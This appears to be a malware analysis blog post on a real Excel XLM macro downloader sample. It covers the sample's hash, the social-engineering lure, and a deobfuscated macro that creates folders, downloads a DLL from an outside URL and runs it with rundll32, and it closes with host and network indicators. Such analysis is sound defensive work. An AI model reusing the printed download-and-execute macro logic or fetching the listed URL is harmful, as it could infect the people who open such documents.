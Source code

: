 ```yaml
---
title: Excel Downlaoder
date: 2023-05-19 00:00:00 +0800
categories: [Malware, Downloader]
tags: [real_sample, excel, xlm, macro]
toc: true
---
```


#xls #malware #macros #xlm_macros #downloader 

# Basic info 
MD5: `d7468f3bfae912928bdf3b8ddc0d8ff9`
file info: Composite Document File V2 Document, Little Endian, Os: Windows, Version 10.0, Code page: 1252, Author: vlcqBjjWJkHThPgSWv, Last Saved By: Company, Name of Creating Application: Microsoft Macintosh Excel, Create Time/Date: M  
on Nov 23 13:55:34 2020, Last Saved Time/Date: Mon Nov 23 14:13:13 2020

# Analysis
We start by a excel file

Checking it using `oleid` 

![image 1](/assets/img/posts/excel_downloader/1.png)


the file contains a xlm macros

Now open the file in excel and make sure that macros not enabled

![image 2](/assets/img/posts/excel_downloader/2.png)

notice that the file contains 2 sheets and it has a social engineering message to make the user enable macros

open the second sheet and go to the auto_open cell 

![image 3](/assets/img/posts/excel_downloader/3.png)

this will be the start of xlm macros

now i will continue as static analysis without running the macro just for my personal training 
i will copy all the codes to vs code and start manual deobfuscation

![image 4](/assets/img/posts/excel_downloader/4.png)

it is clear that it will start build up strings like this url 

```c
url = "https://tophomedesignz.com/sport.dll"
cmd = "C:\rxtGJXs\uEOIlCU\URLdaxT.dll,DllRegisterServer"
path = "C:\rxtGJXs\uEOIlCU\URLdaxT.dll"
urlmon = "URLMON"
downloadtofile = "URLDownloadToFileA"
shell32 = "Shell32"
shell_exec ="ShellExecuteA"
open = "Open"
CJyenomr = "regsvr32.exe"
rundll32 = "rundll32.exe"
dir1 = "C:\rxtGJxs"
subdir1 = "C:\rxtGJxs\uEOIlCU"
krnl32 = "kernel32"
mkdir = "CreateDirectoryA"
QRbytXZ = "INSEGN"
CIbjZFzB = "DownloadFile"
cHFnbvmd = "zbaqgiaz"
dGZFcuHu = "BLttghIR"
BMdezBL = "YSKhEnyF"
JCJ = "JCJ"
JJCCJJ = "JJCCJJ"
JJCCCCJ = "JJCCCCJ"

=CALL(krnl32,mkdir,JCJ,dir1,0)
=CALL(krnl32,mkdir,JCJ,subdir1,0)
=CALL(urlmon,downloadtofile,JJCCJJ,0,URL,path,0,0)
=CALL(shell32,shell_exec,JJCCCCJ,0,open,rundll32,cmd,0,0)

=HALT()
```


The excel file will do the following:
1. create a directory `C:\rxtGJxs\uEOIlCU`
2. download the dll from `https://tophomedesignz.com/sport.dll` at `C:\rxtGJXs\uEOIlCU\URLdaxT.dll` 
3. run the dll `C:\rxtGJXs\uEOIlCU\URLdaxT.dll,DllRegisterServer`



# IoC

## Host Based IoC

DLL location  `C:\rxtGJXs\uEOIlCU\URLdaxT.dll`

## Network Based IoC

URL  `https://tophomedesignz.com/sport.dll`
